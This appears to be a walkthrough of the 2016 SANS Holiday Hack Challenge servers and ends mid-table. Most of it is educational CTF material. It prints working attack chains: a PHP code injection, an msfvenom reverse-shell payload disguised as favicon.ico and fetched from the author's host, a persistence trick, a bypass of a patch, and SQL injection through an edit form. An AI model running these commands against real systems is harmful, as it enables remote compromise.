Scanning 5 hosts [131072 ports/host] Discovered open port 22/tcp on 35.184.47.139 Discovered open port 80/tcp on 35.184.47.139 Discovered open port 11111/tcp on 35.184.47.139 Discovered open port 22/tcp on 35.184.63.245 Discovered open port 80/tcp on 35.184.63.245 Discovered open port 22/tcp on 104.198.252.157 Discovered open port 443/tcp on 104.198.252.157 Discovered open port 22/tcp on 104.198.221.240 Discovered open port 80/tcp on 104.198.221.240 Discovered open port 22/tcp on 104.154.196.33 Discovered open port 80/tcp on 104.154.196.33
The Mobile Analytics Server (via credentialed login access)
Looking at the decompiled SantaGram code, the analytics_launch_url and analytics_usage_url are each used in a single place. The JSON that is sent to each of those URLs lists a username and password:
jSONObject.put("username", "guest"); jSONObject.put("password", "busyreindeer78"); jSONObject.put("type", "usage"); jSONObject.put("activity", str); jSONObject.put("udid", Secure.getString(context.getContentResolver(), "android_id")); new Thread(new Runnable() { public void run() { b.a(context.getString(R.string.analytics_usage_url), jSONObject); } }).start();
Visiting the URL, https://analytics.northpolewonderland.com/, redirects us to a login page. We're able to login with guest/busyreindeer78.

Figure 7: Sprusage Guest Navbar
We notice an MP3 nav item at the top, which gives us discombobulatedaudio2.mp3
The Dungeon Game
From the port scan, we see well-known ports for SSH, HTTP, HTTPS, and the uncommon port tcp/11111. If we connect to that, we get dropped in a game of Dungeon:
nc dungeon.northpolewonderland.com 11111
Welcome to Dungeon. This version created 11-MAR-78. You are in an open field west of a big white house with a boarded front door. There is a small wrapped mailbox here. >
We have a couple of clues about Dungeon:
<Pepper Minstix> - When I need a break from bug bounty work, I play Dungeon. I've been playing it since 1978.
I still have yet to beat the Cyclops...
<Pepper Minstix> - Alabaster's brother is the only elf I've ever seen beat it, and he really immersed himself
in the game. [http://www.northpolewonderland.com/dungeon.zip](I have an old version here).
<Alabaster Snowball> - Did Pepper send you? She's obsessed with Dungeon!
<Alabaster Snowball> - I don't know if Dungeon can be won. I do believe there is a way to cheat though...
Did someone say cheat? Sign us up!
Searching around a bit shows that this is a copy of the text-based adventure game Dungeon, with a few modifications. The data is contained in dtextc.dat. In the dusty recesses of the Internet, we can find the original version, and we can find a C tool which will decode the file.
./cdungeon-decode -b zork/dtextc.dat -a > dump_orig.txt
./cdungeon-decode -b dtextc.dat -a > dump_sans.txt
diff --unified=1 dump_orig.txt dump_sans.txt
(Note: Some less interesting changes are removed for brevity):
--- a/dump_orig.txt +++ b/dump_sans.txt @@ -2052,4 +2052,6 @@ Room: 188: Small Square Room created hole through which you can barely discern the floor some ten - feet below. It doesn't seem likely you could climb back up. There - are exits to the west and south. + feet below. It doesn't seem likely you could climb back up. An + extremely dark and narrow chimney leads up from a fireplace. Although + you might be able to get up the chimney, it seems unlikely that you + could get back down. There are exits to the west and south. Flags: 24576 (land light) @@ -2061,2 +2063,6 @@ Exits: Flag: 32 (frobozz) + up: 2 192 (Elf Room) + Action: 3 + Flag: 14 (lightload) + String: The chimney is too narrow for you and all of your baggage. @@ -2104,2 +2110,30 @@ Exits: +Room: 191: North Pole + You are at the North Pole. There is a blizzard blowing making it hard to + hear or see. In the distance you detect the busy sounds of Santa's elves + in full production. To the north you discern the outline of a door with a + warm glow omitting from under the door. +Value: 50 +Flags: 24576 (land light) +Exits: + north: 0 192 (Elf Room) + +Room: 192: Elf Room + You have mysteriously reached the North Pole. + In the distance you detect the busy sounds of Santa's elves in full + production. + + You are in a warm room, lit by both the fireplace but also the glow of + centuries old trophies. + On the wall is a sign: + Songs of the seasons are in many parts + To solve a puzzle is in our hearts + Ask not what what the answer be, + Without a trinket to satisfy me. +Value: 50 +Flags: 24592 (end land light) +Exits: + south: 0 191 (North Pole) + down: 0 188 (Small Square Room) + @@ -2741,3 +2782,4 @@ Room: 8 (Living Room) Read: - The engravings translate to, "This space intentionally left blank". + The engravings translate to, "This space intentionally left blank." + "The implementers blame Mike Poor." @@ -3894,2 +3936,11 @@ Flag1: -32256 (nodescription visible) +Object: 217: Elf + The elf is facing you keeping his back warmed by the fire. +Action: 61 +Flag1: -32736 (victim visible) +Flag2: 128 (villian) +Size: 10000 +Capacity: 10000 +Room: 192 (Elf Room) + Double room: 63 (window) in 6 (Kitchen) @@ -4443,2 +4499,4 @@ Message: 119 wisp of smoke, his laughter fading in the distance. + When the smoke clears, the phrase "Try the online version for the true prize" + is all that remains. Message: 120 @@ -5262,3 +5320,3 @@ Message: 484 Message: 485 - This gives you the rank of Cheater. + This gives you the rank of Hacker. Message: 486 @@ -6593 +6651,13 @@ Message: 1022 to his livelihood. +Message: 1023 + The elf, willing to bargain, says "What's in it for me?" +Message: 1024 + The elf, satisified with the trade says - + Try the online version for the true prize +Message: 1025 + "That wasn't quite what I had in mind", he says, tossing + the # into the fire, where it vanishes. +Message: 1026 + The elf appears increasingly impatient. +Message: 1027 + The elf says - you have conquered this challenge - the game will now end.
Looks like there are 3 new rooms, Mike Poor left a space blank, a new villain (the Elf), and some additional messages. Unfortunately, we need to use the online version, and not just run it locally. But, we still would rather cheat and bypass all that actual game-playing.
If we look at the binary file with strings, we can see an interesting menu:
Valid commands are: AA- Alter ADVS DR- Display ROOMS AC- Alter CEVENT DS- Display state AF- Alter FINDEX DT- Display text AH- Alter HERE DV- Display VILLS AN- Alter switches DX- Display EXITS AO- Alter OBJCTS DZ- Display PUZZLE AR- Alter ROOMS D2- Display ROOM2 AV- Alter VILLS EX- Exit AX- Alter EXITS HE- Type this message AZ- Alter PUZZLE NC- No cyclops DA- Display ADVS ND- No deaths DC- Display CEVENT NR- No robber DF- Display FINDEX NT- No troll DH- Display HACKS PD- Program detail DL- Display lengths RC- Restore cyclops DM- Display RTEXT RD- Restore deaths DN- Display switches RR- Restore robber DO- Display OBJCTS RT- Restore troll DP- Display parser TK- Take
Searching around tells us that that is the menu from the Game Debugging Tool, which can be entered by typing "gdt" at the prompt:
: Welcome to Dungeon. This version created 11-MAR-78. : You are in an open field west of a big white house with a boarded : front door. : There is a small wrapped mailbox here. : >gdt : GDT>help : Valid commands are: : AA- Alter ADVS DR- Display ROOMS : AC- Alter CEVENT DS- Display state : AF- Alter FINDEX DT- Display text : AH- Alter HERE DV- Display VILLS : ...
Our diff flagged a couple of messages as being important, such as 1024: "The elf, satisified with the trade says - Try the online version for the true prize". One of the debugging commands is DT, which will display text messages:
printf "gdt\ndt\n1024\nexit\nquit\ny\n" | nc dungeon.northpolewonderland.com 11111 | grep --context=1 elf
There is a small wrapped mailbox here. >GDT>Entry: The elf, satisified with the trade says - send email to "peppermint@northpolewonderland.com" for that which you seek.
Excellent! We can now e-mail peppermint@northpolewonderland.com and we receive discombobulatedaudio3.mp3.
The Debug Server
Similar to the analytics URLs, the debug data collection URL is only used in one place:
final JSONObject jSONObject = new JSONObject(); jSONObject.put("date", new SimpleDateFormat("yyyyMMddHHmmssZ").format(Calendar.getInstance().getTime())); jSONObject.put("udid", Secure.getString(getContentResolver(), "android_id")); jSONObject.put("debug", getClass().getCanonicalName() + ", " + getClass().getSimpleName()); jSONObject.put("freemem", Runtime.getRuntime().totalMemory() - Runtime.getRuntime().freeMemory()); new Thread(new Runnable(this) { final /* synthetic */ EditProfile b; public void run() { b.a(this.b.getString(R.string.debug_data_collection_url), jSONObject); } }).start();
We can fake a request, and see what happens:
curl -s -H "Content-Type: application/json" \ -d '{"date": "20170101010101-0800", "udid": "11111111", "debug": "com.northpolewonderland.santagram.EditProfile, EditProfile", "freemem": "10200"}' \ http://dev.northpolewonderland.com/index.php | python -mjson.tool
{
"date": "20170102184745",
"filename": "debug-20170102184745-0.txt",
"request": {
"date": "20170101010101-0800",
"debug": "com.northpolewonderland.santagram.EditProfile, EditProfile",
"freemem": "10200",
"udid": "11111111",
"verbose": false
},
"status": "OK"
}
Alabaster Snowball has some useful advice for us:
<Alabaster Snowball> - My favorite hacking technique? It has to be JSON parameter editing.
<Alabaster Snowball> - After capturing RESTful web traffic in Burp Suite, I right-click and select "Copy as Curl Command".
<Alabaster Snowball> - Then, just paste it into a script, and start tweaking parameters.
<Alabaster Snowball> - You can use Burp Repeater too, but I am trying to live up to Santa's command line Kung-fu!
<Alabaster Snowball> - Always compare the request and the response data. Any time I see an interesting variation, I start changing the
parameters around. Super fun!
Luckily, the response includes the request, and we see that an additional field is present, verbose, and that it defaults to false. Let's set it to true and see what happens:
curl -s -H "Content-Type: application/json" \ -d '{"date": "20170101010101-0800", "udid": "11111111", "debug": "com.northpolewonderland.santagram.EditProfile, \ EditProfile", "freemem": "10200", "verbose": true}' \ http://dev.northpolewonderland.com/index.php | python -mjson.tool
{
"date": "20170102185111",
"date.len": 14,
"filename": "debug-20170102185111-0.txt",
"filename.len": 26,
"files": [
"debug-20161224235959-0.mp3",
"debug-20170102181933-0.txt",
"debug-20170102182005-0.txt",
"debug-20170102183217-0.txt",
"debug-20170102183254-0.txt",
"debug-20170102183307-0.txt",
"debug-20170102183641-0.txt",
"debug-20170102183758-0.txt",
"debug-20170102184301-0.txt",
"debug-20170102184328-0.txt",
"debug-20170102184330-0.txt",
"debug-20170102184405-0.txt",
"debug-20170102184419-0.txt",
"debug-20170102184422-0.txt",
"debug-20170102184458-0.txt",
"debug-20170102184519-0.txt",
"debug-20170102184531-0.txt",
"debug-20170102184547-0.txt",
"debug-20170102184612-0.txt",
"debug-20170102184623-0.txt",
"debug-20170102184632-0.txt",
"debug-20170102184736-0.txt",
"debug-20170102184741-0.txt",
"debug-20170102184745-0.txt",
"debug-20170102185111-0.txt",
"index.php"
],
"request": {
"date": "20170101010101-0800",
"debug": "com.northpolewonderland.santagram.EditProfile, EditProfile",
"freemem": "10200",
"udid": "11111111",
"verbose": true
},
"status": "OK",
"status.len": "2"
}
A close inspection shows that the file at the top is an MP3. We can download that file, but we don't know which file it is, since it has a different naming scheme.
exiftool debug-20161224235959-0.mp3 | egrep '(Track|Title)'
#RESULTS:
Track : 4 Title : 4
Looks like we got discombobulatedaudio4.mp3.
The Banner Ad Server
Visiting http://ads.northpolewonderland.com/, we see a very smiley web app, which seems to rely heavily on Javascript. Taking a look at the source code has many references to Meteor, a Javascript framework. Pepper Minstix has some advice for us:
<Pepper Minstix> - Lately, I've been spending time attacking JavaScript frameworks, specifically the [[https://www.meteor.com/][Meteor Framework]. <Pepper Minstix> - Meteor uses a publish/subscribe messaging platform. This makes it easy for a web page to get dynamic data from a server. <Pepper Minstix> - Meteor's message passing mechanism uses the Distributed Data Protocol (DDP). DDP is basically a JSON-based protocol using WebSockets and SockJS for RPC and data management. <Pepper Minstix> - The good news is that Meteor mitigates most XSS attacks, CSRF attacks, and SQL injection attacks. <Pepper Minstix> - The bad news is that people get a little too caught up in messaging subscriptions, and get too much data from the server. <Pepper Minstix> - You should check out Tim Medin's talk from HackFest 2016 and the related [[https://pen-testing.sans.org/blog/2016/12/06/mining-meteor][blog post]]. <Pepper Minstix> - Also, [[https://github.com/nidem/MeteorMiner][Meteor Miner]] is a browser add-on for [[https://tampermonkey.net/][Tampermonkey]] to easily browse through Meteor subscriptions. Check it out!
Installing MeteorMiner reveals some additional information about the site. One of the nice features is the list of routes, so we can try various pages. When we visit 'admin/quotes,' we see that HomeQuotes has 5 records. Digging into those records shows something interesting:
{"name": "home_quotes", "_docs": {"_map": { "drsCoXaLaitrx2xJP": {"index": 0, "quote": "Never Tired", "hidden": false}, "ncN8EozkRGuq3hmd6": {"index": 1, "quote": "Never the Same!", "hidden": false}, "qLqMmQFCurmaptYPj": {"index": 2, "quote": "Making Ads Great Again!", "hidden": false}, "zC3qjywazw6vTorZQ": {"index": 3, "quote": "Is anyone actually reading this?", "hidden": false}, "zPR5TpxB5mcAH3pYk": {"index": 4, "quote": "Just Ad It!", "hidden": true, "audio": "/ofdAR4UYRaeNxMg/discombobulatedaudio5.mp3" }}}}
Downloading the file in the last entry gives us discombobulatedaudio5.mp3.
The Uncaught Exception Handler Server
Once more, we have a URL, and can search through the decompiled app to see how it's intended to be used. We have two hits, which send a POST request with JSON content. Let's start poking at it and see what we need to send:
curl -s -H "Content-Type: application/json" -d '{}' http://ex.northpolewonderland.com/exception.php
Fatal error! JSON key 'operation' must be set to WriteCrashDump or ReadCrashDump.
curl -s -H "Content-Type: application/json" -d '{"operation":"ReadCrashDump"}' http://ex.northpolewonderland.com/exception.php
Fatal error! JSON key 'data' must be set.
curl -s -H "Content-Type: application/json" -d '{"operation":"ReadCrashDump", "data": "Yes, please!"}' http://ex.northpolewonderland.com/exception.php
Fatal error! JSON key 'crashdump' must be set.
curl -s -H "Content-Type: application/json" -d '{"operation":"ReadCrashDump", "data": "Yes, please!", "crashdump": "dump"}' http://ex.northpolewonderland.com/exception.php
Fatal error! JSON key 'crashdump' must be set.
Interesting. Let's see if data is a nested object, and crashdump is a key in there:
curl -sv -H "Content-Type: application/json" -d '{"operation":"ReadCrashDump", "data": {"crashdump": "dump"}}' http://ex.northpolewonderland.com/exception.php
< HTTP/1.1 500 Internal Server Error < Server: nginx/1.10.2 < Date: Mon, 02 Jan 2017 22:21:06 GMT < Content-Type: text/html; charset=UTF-8 < Transfer-Encoding: chunked < Connection: keep-alive
Progress. We need to figure out a valid resource for it to read, though:
curl -s -H "Content-Type: application/json" -d $'{"operation":"ReadCrashDump", "data": {"crashdump": "php://filter/convert.base64-encode/resource=exception"}}' http://ex.northpolewonderland.com/exception.php | base64 -D > exception.php
<?php
# Audio file from Discombobulator in webroot: discombobulated-audio-6-XyzE3N9YqKNH.mp3
# Code from http://thisinterestsme.com/receiving-json-post-data-via-php/
# Make sure that it is a POST request.
if(strcasecmp($_SERVER['REQUEST_METHOD'], 'POST') != 0){
die("Request method must be POST\n");
}
# Make sure that the content type of the POST request has been set to application/json
$contentType = isset($_SERVER["CONTENT_TYPE"]) ? trim($_SERVER["CONTENT_TYPE"]) : '';
if(strcasecmp($contentType, 'application/json') != 0){
die("Content type must be: application/json\n");
}
# Grab the raw POST. Necessary for JSON in particular.
$content = file_get_contents("php://input");
$obj = json_decode($content, true);
# If json_decode failed, the JSON is invalid.
if(!is_array($obj)){
die("POST contains invalid JSON!\n");
}
# Process the JSON.
if ( ! isset( $obj['operation']) or (
$obj['operation'] !== "WriteCrashDump" and
$obj['operation'] !== "ReadCrashDump"))
{
die("Fatal error! JSON key 'operation' must be set to WriteCrashDump or ReadCrashDump.\n");
}
if ( isset($obj['data'])) {
if ($obj['operation'] === "WriteCrashDump") {
# Write a new crash dump to disk
processCrashDump($obj['data']);
}
elseif ($obj['operation'] === "ReadCrashDump") {
# Read a crash dump back from disk
readCrashdump($obj['data']);
}
}
else {
# data key unset
die("Fatal error! JSON key 'data' must be set.\n");
}
function processCrashdump($crashdump) {
$basepath = "/var/www/html/docs/";
$outputfilename = tempnam($basepath, "crashdump-");
unlink($outputfilename);
$outputfilename = $outputfilename . ".php";
$basename = basename($outputfilename);
$crashdump_encoded = "<?php print('" . json_encode($crashdump, JSON_PRETTY_PRINT) . "');";
file_put_contents($outputfilename, $crashdump_encoded);
print <<<END
{
"success" : true,
"folder" : "docs",
"crashdump" : "$basename"
}
END;
}
function readCrashdump($requestedCrashdump) {
$basepath = "/var/www/html/docs/";
chdir($basepath);
if ( ! isset($requestedCrashdump['crashdump'])) {
die("Fatal error! JSON key 'crashdump' must be set.\n");
}
if ( substr(strrchr($requestedCrashdump['crashdump'], "."), 1) === "php" ) {
die("Fatal error! crashdump value duplicate '.php' extension detected.\n");
}
else {
require($requestedCrashdump['crashdump'] . '.php');
}
}
?>
Bingo. We note a comment towards the top of the file:
# Audio file from Discombobulator in webroot: discombobulated-audio-6-XyzE3N9YqKNH.mp3
and just like that, we have our penultimate audio file, from http://ex.northpolewonderland.com/discombobulated-audio-6-XyzE3N9YqKNH.mp3
Digging Deeper: Command Execution
There's a more serious vulnerability in exception.php, and it allows for remote command execution.
In processCrashdump, the crashdump information gets written to disk, as a PHP file. Here's the relevant code, with annotations added:
# First, get the POST data. It needs to be raw so it can be decoded as JSON.
$content = file_get_contents("php://input");
$obj = json_decode($content, true);
...
# If operation is WriteCrashDump, we'll save it as a new PHP file.
$crashdump_encoded = "<?php print('" . json_encode($crashdump, JSON_PRETTY_PRINT) . "');";
file_put_contents($outputfilename, $crashdump_encoded);
...
# Finally, we return a JSON object telling us where our crashdump has been saved:
{
"success" : true,
"folder" : "docs",
"crashdump" : "$basename"
}
The troublesome line is:
$crashdump_encoded = "<?php print('" . json_encode($crashdump, JSON_PRETTY_PRINT) . "');";
json_encode doesn't provide any input sanitization. If our input contains a single quote, we can "escape" the print statement. As an example, we'll create a new crashdump, and then see what gets saved in the file:
curl -s -H "Content-Type: application/json" \ -d $'{"operation":"WriteCrashDump", "data": {"crashdump": "\'); print(\'Hello World\'); print(\');"}}' \ http://ex.northpolewonderland.com/exception.php | grep crashdump
"crashdump" : "crashdump-Sd9cEH.php"
curl -s -H "Content-Type: application/json" \ -d $'{"operation":"ReadCrashDump", "data": {"crashdump": "php://filter/convert.base64-encode/resource=crashdump-Sd9cEH"}}'\ http://ex.northpolewonderland.com/exception.php | base64 -D
<?php print('{
"crashdump": "'); print 'Hello World'; print ('"
}');
Reformatted a bit:
<?php
print('{"crashdump": "');
print 'Hello World';
print ('"}');
It's important to make sure that we anticipate the data added after our string as well, otherwise it wouldn't be valid PHP.
At this point, we just query our malicious PHP file, and it will execute the data that we added.
curl -s http://ex.northpolewonderland.com/docs/crashdump-Sd9cEH.php
{
"crashdump": "Hello World"
}
Let's try to get a meterpreter shell.
First, let's create a reverse TCP meterpreter payload. We'll create a binary, since execution is a bit more reliable than by using PHP directly. We'll name it something nice and innocuous:
msfvenom -a x86 --platform linux -p linux/x86/meterpreter/reverse_tcp LHOST=98.222.48.12 -f elf -o /srv/www/favicon.ico
No encoder or badchars specified, outputting raw payload Payload size: 71 bytes Saved as: favicon.ico
Now, we'll create the PHP payload which will download and run our binary. We'll base64-encode it to bypass any modifications from JSON-escaping:
msfvenom -a php --platform php -p php/download_exec URL=http://home.grigorescu.org/favicon.ico -e php/base64 -o payload.php
Found 1 compatible encoders Attempting to encode payload with 1 iterations of php/base64 php/base64 succeeded with size 1287 (iteration=0) php/base64 chosen with final size 1287 Payload size: 1287 bytes Saved as: payload.php
Because ex.northpolewonderland.com is behind some kind of NAT, we can't access it directly, which is why we used the reverse TCP payload. When the payload is executed, it will connect back to our machine. We'll start a listener for when that happens:
msfconsole
msf > use exploit/multi/handler msf exploit(handler) > set payload linux/x86/meterpreter/reverse_tcp payload => linux/x86/meterpreter/reverse_tcp msf exploit(handler) > set LHOST 0.0.0.0 LHOST => 0.0.0.0 msf exploit(handler) > run [*] Started reverse handler on 0.0.0.0:4444 [*] Starting the payload handler...
Now we can send our payload, which will create the PHP file:
curl -s -H "Content-Type: application/json" \ -d $'{"operation":"WriteCrashDump", "data": {"crashdump": "a\'); '$(cat payload.php)$' print (\'"}}' \ http://ex.northpolewonderland.com/exception.php
{
"success" : true,
"folder" : "docs",
"crashdump" : "crashdump-0G1ECh.php"
}
Now we request our malicious PHP file and it will connect back to our Metasploit session!
curl -s http://ex.northpolewonderland.com/docs/crashdump-0G1ECh.php
[*] Transmitting intermediate stager for over-sized stage...(105 bytes) [*] Sending stage (1495598 bytes) to 104.154.196.33 [*] Meterpreter session 1 opened (192.168.1.32:4444 -> 104.154.196.33:46879) at 2017-01-03 11:46:02 -0600 meterpreter > run post/linux/gather/enum_system [+] Info: [+] Debian GNU/Linux 8 [+] Linux ex-northpolewonderland-com 3.16.0-4-amd64 #1 SMP Debian 3.16.36-1+deb8u2 (2016-10-19) x86_64 GNU/Linux [+] Module running as "www-data" user [*] Linux version stored in /home/vladg/.msf4/loot/20170103115035_default_10.240.0.7_linux.enum.syste_342788.txt [*] User accounts stored in /home/vladg/.msf4/loot/20170103115035_default_10.240.0.7_linux.enum.syste_847236.txt [*] Installed Packages stored in /home/vladg/.msf4/loot/20170103115035_default_10.240.0.7_linux.enum.syste_652304.txt [*] Running Services stored in /home/vladg/.msf4/loot/20170103115035_default_10.240.0.7_linux.enum.syste_958054.txt [*] Cron jobs stored in /home/vladg/.msf4/loot/20170103115035_default_10.240.0.7_linux.enum.syste_678876.txt [*] Disk info stored in /home/vladg/.msf4/loot/20170103115035_default_10.240.0.7_linux.enum.syste_797579.txt [*] Logfiles stored in /home/vladg/.msf4/loot/20170103115035_default_10.240.0.7_linux.enum.syste_977409.txt [*] Setuid/setgid files stored in /home/vladg/.msf4/loot/20170103115035_default_10.240.0.7_linux.enum.syste_873676.txt
It'd be a good idea to establish some persistence. We see that there's an hourly cron job that will delete some PHP files:
meterpreter > shell Process 19350 created. Channel 1 created. /bin/sh: 0: can't access tty; job control turned off $ cat /etc/cron.hourly/* #!/bin/sh find /var/www/html/docs -name "crashdump-*.php" -mmin +240 -delete
We can copy our PHP file to something similar, and then just visit that URL if we ever want to recreate the session:
cp crashdump-2qUEun.php crashdunp-2qUEun.php
At this point, we could use this system to pivot from by scanning internal networks, search for files with incorrect permissions, etc.
Command Execution (Again…)
On January 4th, around 21:12 ETC, Jeff fixed the vulnerability!
diff exception_20170103.php exception_20170104.php
diff --git 1/exception_20170103.php 2/exception_20170104.php
index cf94723..0abca9b 100644
--- 1/exception_20170103.php
+++ 2/exception_20170104.php
@@ -15,7 +15,11 @@ if(strcasecmp($contentType, 'application/json') != 0){
}
# Grab the raw POST. Necessary for JSON in particular.
+$quote = "'";
+$blank = "";
+
$content = file_get_contents("php://input");
+$content = str_replace($quote, $blank, $content);
$obj = json_decode($content, true);
# If json_decode failed, the JSON is invalid.
if(!is_array($obj)){
Single quotes now get removed from the string. We can verify that our previous attack no longer works. It now creates a PHP file with:
<?php print('{
"crashdump": "); print(Hello World); print();"
}');
As expected, the quotes have been removed. If we execute this file, we get:
{
"crashdump": "); print(Hello World); print();"
}
Well, that's not what we want. Luckily for us, there's an issue with the fix: str_replace is being called before json_decode. We can encode a single quote as Unicode (\u0027), which won't be replaced by str_replace (PHP Unicode escape syntax is \u{0027}). However, that is a valid JSON escape sequence, and json_decode will replace it with our single quote again:
curl -s -H "Content-Type: application/json" \ -d $'{"operation":"WriteCrashDump", "data": {"crashdump": "\\u0027); print \\u0027Hello World\\u0027; print (\\u0027"}}' \ http://ex.northpolewonderland.com/exception.php | grep crashdump
"crashdump" : "crashdump-NBMw15.php"
curl -s ex.northpolewonderland.com/docs/crashdump-NBMw15.php
{
"crashdump": "Hello World"
}
The Mobile Analytics Server (post authentication)
Last one. Let's quickly review the hints from the Holiday Hack Quest:
| Elf | Hint |
|---|---|
| Shinny | APK decompilation with JadX |
| Pepper | Using MeteorMiner, and giving us the dungeon zip |
| Bushy | Recompiling executables with Apktool |
| Sugarplum | PHP local file includes |
| Alabaster | Cheating at Dungeon and JSON parameter editing |
| Wunorse | Mounting the Cranberry Pi image |
| Minty | Using nmap for finding extra files on web server and port scanning, and using John for cracking hashes. |
The only hint that we haven't used yet is using to scan for extra files on a web server:
<Minty Candycane> - NMAP is also great for finding extra files on web servers. The default scripts run with the "-sC" option work
really well for me.
nmap -sC -p 443 104.198.252.157
Starting Nmap 7.31 ( https://nmap.org ) at 2017-01-02 17:39 CST Nmap scan report for 157.252.198.104.bc.googleusercontent.com (104.198.252.157) Host is up (0.0043s latency). PORT STATE SERVICE 443/tcp open https | http-git: | 104.198.252.157:443/.git/ | Git repository found! | Repository description: Unnamed repository; edit this file 'description' to name the... |_ Last commit message: Finishing touches (style, css, etc) | http-title: Sprusage Usage Reporter! |_Requested resource was login.php | ssl-cert: Subject: commonName=analytics.northpolewonderland.com | Subject Alternative Name: DNS:analytics.northpolewonderland.com | Not valid before: 2016-12-07T17:35:00 |_Not valid after: 2017-03-07T17:35:00 |_ssl-date: TLS randomness does not represent time | tls-nextprotoneg: |_ http/1.1 Nmap done: 1 IP address (1 host up) scanned in 2.06 seconds
Git repository found! Let's recursively download it, then restore everything to the latest master:
wget -np -qr https://analytics.northpolewonderland.com/.git/ git reset --hard master
HEAD is now at 16ae0cb Finishing touches (style, css, etc)
ls
README.md db.php footer.php index.php logout.php report.php this_is_html.php view.php crypto.php edit.php getaudio.php js mp3.php sprusage.sql this_is_json.php css fonts header.php login.php query.php test uuid.php
Can we find some non-guest credentials?
git log -p | grep guest
+ // EXPERIMENTAL! Only allow guest to download.
+ if ($username === 'guest') {
+ if (get_username() == 'guest') {
restrict_page_to_users($db, ['guest']);
-INSERT INTO `users` VALUES (0,'administrator','KeepWatchingTheSkies'),(1,'guest','busyllama67');
+INSERT INTO `users` VALUES (0,'administrator','KeepWatchingTheSkies'),(1,'guest','busyllama67');
Interesting… Trying administrator/KeepWatchingTheSkies allows us to login to the webapp with extra privileges. We notice that the MP3 link has now been replaced with an edit link.
Looking through the pages accessible to the admin user, we see three main pages:
- Query lets us create a new query, and optionally save it
- Edit allows us to modify a saved query
- View displays the results from a saved query
Let's test out the functionality of each of those:
Let's begin. We'll create a usage query, and ensure that we save it:

Figure 8: Create a usage query

Figure 9: The result of the usage query
Clicking the link takes us to the view page, and gives us some information about our query:

Figure 10: Viewing our saved query
At this point, we can edit our query:

Figure 11: Editing our query
It looks like it worked, and we get the SQL command that was issued:
Checking for id...
Yup!
Checking for name...
Yup!
Checking for description...
Yup!
UPDATE `reports` SET `id`='61f9ec9b-6192-463b-aee5-5a0983362dff', `name`='Name_Field',
`description`='Description_Field' WHERE `id`='61f9ec9b-6192-463b-aee5-5a0983362dff'Update complete!
Reviewing the code in edit.php more closely reveals a vulnerability: we can set other fields of the report:
foreach($row as $name => $value) {
print "Checking for " . htmlentities($name) . "...<br>";
if(isset($_GET[$name])) {
print 'Yup!<br>';
$set[] = "`$name`='" . mysqli_real_escape_string($db, $_GET[$name]) . "'";
}
}
Let's see how the query is created, in query.php:
if(isset($_REQUEST['save'])) {
$id = gen_uuid();
$name = "report-$id";
$description = "Report generated @ " . date('Y-m-d H:i:s');
$result = mysqli_query($db, "INSERT INTO `reports`
(`id`, `name`, `description`, `query`)
VALUES
('$id', '$name', '$description', '" . mysqli_real_escape_string($db, $query) . "')
");
We have one more field, the query, which edit.php doesn't natively expose, but we can trick it into editing for us. If we visit: https://analytics.northpolewonderland.com/edit.php?id=61f9ec9b-6192-463b-aee5-5a0983362dff&name=Name_Field&description=Description_Field&query=show tables;, we see:
Checking for id...
Yup!
Checking for name...
Yup!
Checking for description...
Yup!
Checking for query...
Yup!
UPDATE `reports` SET `id`='61f9ec9b-6192-463b-aee5-5a0983362dff', `name`='Name_Field',
`description`='Description_Field', `query`='show tables;' WHERE `id`='61f9ec9b-6192-463b-aee5-5a0983362dff'Update complete!
Loading our newly modified query in view.php shows that it worked:
| Tables_in_sprusage |
|---|
| app_launch_reports |
| app_usage_reports |
| audio |
| reports |
| users |
Audio sounds interesting. Changing our query to select * from audio; gives us:
| id | username | filename | mp3 |
|---|---|---|---|
| 20c216bc-b8b1-11e6-89e1-42010af00008 | guest | discombobulatedaudio2.mp3 | |
